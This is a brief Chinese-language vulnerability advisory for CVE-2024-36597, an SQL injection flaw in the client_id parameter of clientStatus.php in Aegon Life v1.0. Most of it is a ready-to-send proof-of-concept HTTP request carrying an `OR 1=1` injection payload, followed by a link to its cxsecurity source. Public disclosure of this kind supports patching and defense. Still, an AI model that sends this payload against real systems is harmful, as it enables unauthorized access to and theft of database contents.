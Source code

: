 ## AEGON-LIFEv1.0存在SQL注入漏洞(CVE-2024-36597)

Aegon Life v1.0  clientStatus.php 中的 client_id 参数包含 SQL 注入漏洞。

## poc

```
GET /lims/clientStatus.php?client_id=1511986023%27%20OR%201=1%20--%20a HTTP/1.1
Host: localhost
sec-ch-ua: "Not-A.Brand";v="99", "Chromium";v="124"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=v6g7shnk1mm5vq6i63lklck78n
Connection: close
```



## 漏洞来源

- https://cxsecurity.com/issue/WLB-2024060033